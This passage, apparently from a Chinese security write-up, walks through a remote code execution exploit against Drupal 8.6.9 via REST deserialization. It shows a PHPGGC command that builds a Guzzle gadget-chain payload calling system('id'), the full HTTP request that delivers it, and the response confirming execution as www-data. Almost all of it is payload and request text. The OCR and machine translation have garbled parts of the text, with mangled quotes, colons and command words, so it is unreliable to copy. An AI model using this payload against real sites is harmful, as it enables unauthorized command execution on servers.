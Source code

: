 > 由于Drupal 8使用[Guzzle](http://docs.guzzlephp.org/en/stable/)，我们可以使用PHPGGC生成有效负载：

```
$ ./phpggc guzzle / rce1系统ID --json
 “ O：24：\” GuzzleHttp \\ Psr7 \\ FnStream \“：2：{s：33：\” \ u0000GuzzleHttp \\ Psr7 \\ FnStream \ u0000methods \“ ; a：1：{s：5：\“ close \”; a：2：{i：0; O：23：\“ GuzzleHttp \\ HandlerStack \”：3：{s：32：\“ \ u0000GuzzleHttp \ \ HandlerStack \ u0000handler \“; s：2：\” id \“; s：30：\” \ u0000GuzzleHttp \\ HandlerStack \ u0000stack \“; a：1：{i：0; a：1：{i：0 ; s：6：\“ system \”;}} s：31：\“ \ u0000GuzzleHttp \\ HandlerStack \ u0000cached \”; b：0;} i：1; s：7：\“ resolve \”;}} s：9：\“ _ fn_close \”; a：2：{i：0; r：4; i：1; s：7：\“ resolve \”;}}“ 
```

> 我们可以通过get请求发送有效载荷

```
GET /drupal-8.6.9/node/1?_format=hal_json HTTP/1.1
Host: www.0-sec.org
Content-Type: application/hal+json
Content-Length: 642 `{

“link”: [

{

“value”: “link”,

“options”: “O:24:“GuzzleHttp\Psr7\FnStream”:2:{s:33:”\u0000GuzzleHttp\Psr7\FnStream\u0000methods";a:1:{s:5:“close”;a:2:{i:0;O:23:“GuzzleHttp\HandlerStack”:3:{s:32:"\u0000GuzzleHttp\HandlerStack\u0000handler";s:2:“id”;s:30:"\u0000GuzzleHttp\HandlerStack\u0000stack";a:1:{i:0;a:1:{i:0;s:6:“system”;}}s:31:"\u0000GuzzleHttp\HandlerStack\u0000cached";b:0;}i:1;s:7:“resolve”;}}s:9:"_fn_close";a:2:{i:0;r:4;i:1;s:7:“resolve”;}}"

}

],

“_links”: {

“type”: {

“href”: “[http://www.0-sec.org/drupal-8.6.9/rest/type/shortcut/default](http://www.0-sec.org/drupal-8.6.9/rest/type/shortcut/default)”

}

}

}` 
```

> 返回值

```
HTTP/1.1 200 OK
Link: <...>
X-Generator: Drupal 8 (https://www.drupal.org)
X-Drupal-Cache: MISS
Connection: close
Content-Type: application/hal+json
Content-Length: 9012 `{…}uid=33(www-data) gid=33(www-data) groups=33(www-data)` 
```
